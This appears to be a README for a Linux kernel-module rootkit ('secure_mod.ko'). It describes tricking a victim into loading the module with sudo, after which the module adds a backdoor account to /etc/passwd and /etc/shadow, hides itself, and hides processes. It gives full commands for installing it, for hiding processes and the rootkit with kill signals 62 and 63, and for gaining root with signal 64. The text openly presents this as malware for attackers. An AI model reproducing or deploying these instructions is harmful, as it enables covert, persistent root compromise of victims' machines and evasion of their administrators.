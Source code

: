 <h1>Linux Rootkit</h1>
<h5>Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.</h5>

<h1>Usage</h1>
- <h3>Install</h3>
```
sudo insmod secure_mod.ko
```

- <h3>Hide/Unhide a Process</h3>
```
kill -62 pid
```

- <h3>Hide/Unhide rootkit</h3>
```
kill -63 0
```

- <h3>Get Root Priviledge</h3>
```
kill -64 0
```

- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by</h4>

```
sudo rmmod secure_mod
```
